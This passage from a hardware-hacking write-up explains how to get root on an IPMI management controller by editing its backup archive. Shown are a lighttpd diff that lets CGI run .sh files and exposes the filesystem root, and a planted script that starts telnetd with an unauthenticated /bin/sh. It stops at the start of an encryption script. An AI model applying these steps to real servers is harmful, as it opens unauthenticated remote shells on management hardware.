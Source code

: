 @@ -224,7 +224,8 @@
 
 #### CGI module
 cgi.assign                 = ( ".pl"  => "/web/perl",
-                               ".cgi" => "" )
+                               ".cgi" => "",
+                               ".sh" => "/bin/sh")
 #
 server.use-ipv6 = "enable"
 
@@ -327,3 +328,5 @@
 #include_shell "echo var.a=1"
 ## the above is same as:
 #var.a=1
+
+alias.url += ( "/root" => "/" )
</pre>

<p>
Now all we need is a custom .sh script somewhere on the file system and we are
done. The program that restores backup files is
<code>mnt1/bin/restore_file.sh</code>, and if you have a look at it you’ll see
that it only copies certain files over from the uploaded tarball.
</p>

<p>
If you have a really close look, though, you’ll realize that it also copies
entire directories like <code>preserve_config/ntp</code> without any extra
checking. So let’s put our code in there:
</p>

<pre>
cat > ntp/start_telnet.sh <<'EOT'
#!/bin/sh
/usr/sbin/telnetd -l /bin/sh
EOT
</pre>

<p>
In case you wondered, telnetd is already in the IPMI image since they are using
busybox and presumably use telnet while developing :-).
</p>

<p>
The final step is to create a new tar.gz archive with your modified
preserve_config and upload that either in the IPMI web interface or flash it
using the <code>lUpdate</code> tool that you can find in the IPMI firmware zip
file. While the web interface will accept unencrypted tar.gz files for
backwards compatibility, I’m not sure whether lUpdate will accept them,
therefore I’ll explain how to properly encrypt it:
</p>

<pre>
$ cat > encrypt.sh <<'EOT'
#!/bin/bash
# The file is encrypted with a static key and consists of ATEN\x01\x00 followed
# by a tar.gz archive.
